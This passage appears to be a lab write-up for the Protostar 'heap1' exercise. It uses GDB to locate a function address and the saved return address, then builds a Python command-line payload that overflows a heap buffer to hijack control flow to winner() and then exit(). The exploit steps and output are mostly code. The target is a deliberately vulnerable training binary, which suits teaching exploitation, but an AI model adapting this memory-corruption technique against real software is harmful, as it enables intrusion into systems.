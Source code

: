 ```gdb
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Now, how we do know where the return address is stored on the stack? By setting
a breakpoint on the `ret` instruction in `main()`, we can see that the address
when running in GDB is `0xbffff77c`.

```
(gdb) break *0x08048567
Breakpoint 1 at 0x8048567: file heap1/heap1.c, line 35.
(gdb) run AAAA BBBB
Starting program: /opt/protostar/bin/heap1 AAAA BBBB
and that's a wrap folks!

Breakpoint 1, 0x08048567 in main (argc=134513849, argv=0x3) at heap1/heap1.c:35
35      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
(gdb) print $esp
$1 = (void *) 0xbffff77c
```

However, we cannot use this exact memory address as the layout of the stack
does change outside of a debugger. Since the stack is not touched after the
second `strcpy` until `main()` returns, what we _can_ do is start from an
address near `0xbffff77c` and write `\x94\x84\x04\x08` repeatedly. This will
eventually overwrite the return address of `main()`.

After some trial and error, this is what we end up with.

```shell
user@protostar:~$ /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + '\x40\xf7\xff\xbf'"` `python -c "print '\x94\x84\x04\x08' * 8"`
and that's a wrap folks!
and we have a winner @ 1527638212
Segmentation fault
```

We have successfully redirected control flow to the `winner()` function.
However, the program still has a segmentation fault since the `winner()`
function attempts to returns to `\x00\x00\x00\x00` due to `strcpy` writing a
terminating `NULL` byte.

What we can do is write another 4 bytes with the memory address of `exit()`,
which should make the program exit cleanly.

```
(gdb) print &exit
$1 = (<text variable, no debug info> *) 0xb7ec60c0 <*__GI_exit>
```

Putting it all together, we end up with the following.

```shell
user@protostar:~$ /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + '\x40\xf7\xff\xbf'"` `python -c "print '\x94\x84\x04\x08' * 8 + '\xc0\x60\xec\xb7'"`
and that's a wrap folks!
and we have a winner @ 1527638455
```
